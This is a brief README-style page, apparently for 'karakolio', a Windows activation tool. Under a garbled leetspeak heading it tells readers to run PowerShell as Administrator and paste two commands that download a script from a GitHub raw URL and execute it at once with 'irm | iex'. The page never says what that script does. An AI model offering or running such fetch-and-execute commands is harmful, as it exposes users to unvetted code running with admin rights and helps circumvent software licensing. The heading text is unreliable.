 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.win | iex
```
- Optionally

```cmd
powershell -Command "irm 'https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1' | iex"
```
